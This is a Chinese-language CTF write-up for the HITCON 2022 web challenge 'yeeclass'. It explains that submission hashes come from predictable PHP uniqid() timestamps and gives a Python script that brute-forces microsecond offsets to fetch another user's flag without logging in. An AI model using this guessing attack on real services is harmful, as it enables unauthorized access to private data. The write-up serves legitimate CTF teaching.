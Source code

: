 ::: info
2022-HitCon-Web-yeeclass
:::

# 1、思路

本地部署：`sudo docker-compose build`，`sudo docker-compose up`

（1）`init.sql` 创建表：homework、user、submission

（2）`docker-compose.yml` 创建容器

```yml
  web:
    build:
      context: ./
      # args:
        # TURNSTILE_SECRETKEY: <your-own-key>
        # TURNSTILE_SITEKEY: <your-own-key>
    environment:
      - FLAG=hitcon{not_flag}
    ports:
      - 16875:80/tcp
    depends_on:
      database:
        condition: service_healthy
    entrypoint:
      - bash
      - -c
      - |
        set -e
        echo 'running init.php'
        php -f /tmp/init.php
        rm /tmp/init.php
        
        echo 'initialization done, starting apache'
        exec apache2-foreground
```

（3）`init.php` 创建用户 flagholder，密码随机，并提交了一份包含 flag 的作业，其哈希值为变量 id 的 sha1， `$id = uniqid($username."_");`

```php
<?php 

$pdo = new PDO("mysql:host=database;dbname=yeeclass", "yeeclass", "yeeclass");

$username = "flagholder";
$password = base64_encode(random_bytes(40));

echo "Username: $username; Password: $password\n";

// create user
$user_query = $pdo->prepare("INSERT INTO user (username, `password`, class) VALUES (?, ?, ?)");
$user_query->execute(array($username, hash("md5", $password), 0));

// submit flag
$id = uniqid($username."_");
echo $id."\n";

$submit_query = $pdo->prepare("INSERT INTO submission (`hash`, userid, homeworkid, score, content) VALUES (?, ?, ?, ?, ?)");
$submit_query->execute(array(
    hash("sha1", $id),
    $pdo->lastInsertId(),
    1,
    100,
    $_ENV["FLAG"]
));

?>
```

（4）本地部署的容器输出用户名和随机创建的密码（非服务端），网页端登陆查看提交的 flag 为 hitcon{not_flag} http://challenge-2f05aa9314a37773.sandbox.ctfhub.com:10800/submission.php?hash=6d2fca6a74e7e8c6abf1e6f8bf8c8ecc20015f69

```
yeeclass-web-1       | running init.php
yeeclass-web-1       | Username: flagholder; Password: dsapiA9cJ/ti0mb/nwrDl7jChTdfoznUyVdTZT95MYIEBxjpLaYf4Q==
yeeclass-web-1       | flagholder_65dca4328cdd1
yeeclass-web-1       | initialization done, starting apache
```

（5）`submission.php` 支持

- 哈希查询，即可以在不登陆用户情况下通过访问 http://challenge-2f05aa9314a37773.sandbox.ctfhub.com:10800/submission.php?hash= + 哈希值的方式获取提交的文件
- homeworkid 查询 http://challenge-2f05aa9314a37773.sandbox.ctfhub.com:10800/submission.php?homeworkid= + homework
- userid 查询

```php
if (isset($_GET["hash"]) && $_GET["hash"] != "") {
    // view single submission
    $mode = "view";
    $submission_query = $pdo->prepare("SELECT s.*, u.username, h.name from submission s LEFT JOIN user u ON u.id=s.userid LEFT JOIN homework h ON h.id=s.homeworkid WHERE s.`hash`=?");
    $submission_query->execute(array($_GET["hash"]));
    $result = $submission_query->fetch(PDO::FETCH_ASSOC);

    if (!$result) {
        http_response_code(404);
        die("Submission not found.");
    }
} else {
    // list submissions
    if (isset($_GET["homeworkid"])) {
      ……
    } else if (isset($_SESSION["userid"])) {
      ……
    } else {
        http_response_code(400);
        die("Insufficient parameters");
    }   
}
```

# 2、获取哈希值

哈希值为

```php
$id = uniqid($username."_");
hash("sha1", $id)
```

## uniqid

https://www.php.net/manual/zh/function.uniqid.php

uniqid 的生成方式是 `{sec:08x}{usec:05x}`，13 位 16 进制数

带上前缀：

```php
<?php
    $username = "test";
    echo uniqid($username."_");
		// test_65dd46ee5dc2a
?>
```

## 入库时间

通过 homework 查询 http://challenge-2f05aa9314a37773.sandbox.ctfhub.com:10800/submission.php?homeworkid=1 得到 2024-02-27 10:51:12.808250

## 爆破时间差

入库时间和 `uniqid` 由于运行效率，会存在微秒时间差，因而需要爆破该时间差

# 3、exp

```python
import hashlib
import requests
from datetime import datetime


username = "flagholder"

# timestamp => sec, usec
timestamp = "2024-02-27 10:51:12.808250"
dt = datetime.fromisoformat(timestamp)
sec = int(dt.timestamp())
usec = dt.microsecond


# hash(id)
def get_hash(usec):
    id = f"{username}_{sec:08x}{usec:05x}"
    return hashlib.sha1(id.encode()).hexdigest() 


# 爆破时间差
url = "http://challenge-2f05aa9314a37773.sandbox.ctfhub.com:10800/submission.php?hash="
for i in range(0, 1000):
    hash = get_hash(usec-i)
    r = requests.get(url + hash)
    if r.status_code != 404:
        print(r.text)
```

获得 flag

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>yeeclass | Submission</title>
    <link rel="stylesheet" href="static/style.css">
</head>
<body>
    <div id="main">
        <header id="header">
            <h1>yeeclass</h1>
            <nav>
    <a href="index.php">[Home]</a>    <div class="right">
            <form action="index.php" method="POST">
            <input type="text" name="username" id="username" placeholder="Username" pattern="^\w{6,20}$" autocomplete="off">
            <input type="password" name="password" id="password" placeholder="Password" autocomplete="off">
            <input type="submit" value="Login/Register">
        </form>
        </div>
</nav>        </header>
        <hr>
                <section id="view">
            <h3>flagholder_Flag <a href="submit.php?homeworkid=1&delete=e23b7340a6cfd1939d4be49af0027620f917f712">[Delete]</a></h3>
            <p>Time: 2024-02-27 10:51:12.808250</p>
            <p>Score: 100</p>
            <pre>ctfhub{b52b822e45e613f4dcbf5f50}</pre>
        </section>
            </div>
</body>
</html>
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>openresty/1.21.4.2</center>
</body>
</html>
```

